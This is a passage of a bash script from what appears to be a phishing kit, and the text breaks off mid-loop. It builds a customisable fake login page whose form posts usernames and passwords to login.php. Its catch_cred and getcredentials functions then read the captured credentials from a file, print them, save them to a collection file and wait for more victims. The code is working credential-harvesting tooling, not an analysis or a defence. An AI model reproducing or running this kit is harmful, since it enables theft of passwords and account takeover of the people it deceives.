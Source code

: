 read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Username field (Default: Username:): \e[0m' user_text
user_text="${user_text:-${default_user_text}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Password field (Default: Password:): \e[0m' pass_text
pass_text="${pass_text:-${default_pass_text}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Submit field (Default: Log-In): \e[0m' sub_text
sub_text="${sub_text:-${default_sub_text}}"

echo "<!DOCTYPE html>" > sites/create/login.html
echo "<html>" >> sites/create/login.html
echo "<body bgcolor=\"gray\" text=\"white\">" >> sites/create/login.html
IFS=$'\n'
printf '<center><h2> %s <br><br> %s </h2></center><center>\n' $cap1 $cap2 >> sites/create/login.html
IFS=$'\n'
printf '<form method="POST" action="login.php"><label>%s </label>\n' $user_text >> sites/create/login.html
IFS=$'\n'
printf '<input type="text" name="username" length=64>\n' >> sites/create/login.html
IFS=$'\n'
printf '<br><label>%s: </label>' $pass_text >> sites/create/login.html
IFS=$'\n'
printf '<input type="password" name="password" length=64><br><br>\n' >> sites/create/login.html
IFS=$'\n'
printf '<input value="%s" type="submit"></form>\n' $sub_text >> sites/create/login.html
printf '</center>' >> sites/create/login.html
printf '<body>\n' >> sites/create/login.html
printf '</html>\n' >> sites/create/login.html


}

catch_cred() {

account=$(grep -o 'Account:.*' sites/$server/usernames.txt | cut -d " " -f2)
IFS=$'\n'
password=$(grep -o 'Pass:.*' sites/$server/usernames.txt | cut -d ":" -f2)
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Account:\e[0m\e[1;77m %s\n\e[0m" $account
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Password:\e[0m\e[1;77m %s\n\e[0m" $password
cat sites/$server/usernames.txt >> sites/$server/saved.usernames.txt
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Saved:\e[0m\e[1;77m sites/%s/saved.usernames.txt\e[0m\n" $server
killall -2 php > /dev/null 2>&1

exit 1

}

getcredentials() {
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Waiting credentials ...\e[0m\n"
while [ true ]; do
